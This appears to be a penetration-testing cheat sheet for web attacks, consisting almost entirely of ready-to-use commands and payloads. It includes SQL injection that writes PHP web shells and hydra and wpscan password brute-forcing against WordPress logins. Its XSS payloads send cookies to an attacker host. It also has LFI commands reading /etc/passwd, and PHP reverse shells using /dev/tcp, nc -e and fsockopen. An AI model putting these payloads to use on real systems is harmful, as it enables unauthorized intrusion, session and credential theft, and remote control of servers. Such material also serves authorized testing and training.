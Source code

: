 
# Web

## User Agents 
```
Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
```
```
Googlebot/2.1 (+http://www.googlebot.com/bot.html)
```
```
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
```

## SQL Injection Payloads
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/srv/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/nginx-default/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/usr/local/apache2/htdocs/shell.php"
```

## Web Applications 

### Wordpress

#### Password bruteforce

```bash
wpscan --url http://$target --username admin --wordlist /mnt/share/wordlists/rockyou.txt -t 20
```
```bash
hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=ERROR" -I
```
```bash
hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt
```

#### User enumeration
```bash
hydra -vV -L /mnt/share/wordlists/rockyou.txt -p wedontcare $target http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

### phpliteadmin
```bash
hydra -l "" -P /mnt/share/wordlists/rockyou.txt -t 1 -v -V $target http-post-form /db/phpliteadmin.php:”password=^PASS^&remember=yes&login=Log+In&proc_login=true”:”Incorrect password.”
```

## XSS
```html
'">><script>i=document.createElement("img");i.src='http://$source_ip/'+document.cookie;</script>
```
```html
<script>new Image().src="http://$source_ip/"+document.cookie;</script>
```
```html
<iframe SRC="http://$source_ip/report" height="0" width="0"></iframe>
```
```javascript
var http = new XMLHttpRequest();var url = "http://$source_ip/";var params = "data=" + document.cookie;http.open("POST", url, true);http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");http.send(params);
```

## WebDav
```bash
davtest -url http://$target
```
```bash
curl -X PUT http://$target/test.jsp/ -d @- < test.jsp
```

## LFI 
```bash
curl -s --data "<?php system('whoami');?>" "http://$target/example.php?ACS_path=php://input%00"
```
```bash
curl "http://$target/example.php?page=php://filter/convert.base64-encode/resource=/etc/passwd%00"
```
```bash
curl "http://$target/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd%00"
```
```
curl "http://$target/example.php?page=http://10.11.0.22/menu.php?file=data:text/plain,<?php system('whoami') ?>"
```
```bash
bash $pwd/tools/web/Kadimus/bin/kadimus -u $target/?pg=contact -A "Mozilla/5.0 (X11; Linux i586; rv:31.0) Gecko/20100101 Firefox/73.0" --threads 10 --connect-timeout 10 --retry-times 1 
```

## Payloads 
```php
<?php shell_exec("bash -i >& /dev/tcp/$source_ip/$source_port 0>&1") ?>
```
```php
<?php shell_exec("nc -e /bin/sh $source_ip $source_port") ?>
```
```php
<?php $sock=fsockopen("$source_ip",$source_port);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
## DNS
```bash
dnsrecon -d $target -t axfr
```
```bash
nmap -p 80 --script dns-brute.nse $target 
```
```bash
python dnscan.py -d $target -w ./subdomains-10000.txt
```

## LFI paths

RHEL / Red Hat / CentOS / Fedora Linux Apache log file location   
```
/var/log/httpd/access_log
```
```
/var/log/httpd/error_log
```

Debian / Ubuntu Linux Apache log file location
```
/var/log/apache2/access.log
```
```
/var/log/apache2/error.log
```

FreeBSD Apache log file location
```
/var/log/httpd-access.log
```
```
/var/log/httpd-error.log
```

Config
```
/usr/local/etc/apache2/httpd.conf
```
```
/etc/apache2/apache2.conf
```
```
/etc/httpd/conf/httpd.conf
```

Windows web roots
```
C:/xampp/htdocs/
```
```
C:/wamp/www/
```
```
C:/Inetpub/wwwroot/
```


## Web Servers 
```
python -m SimpleHTTPServer 8080
```
```
python3 -m http.server 8080
```
```
php -S 0.0.0.0:8080
```
```
ruby -run -e httpd . -p 8080
```
```
busybox httpd -f -p 8080
```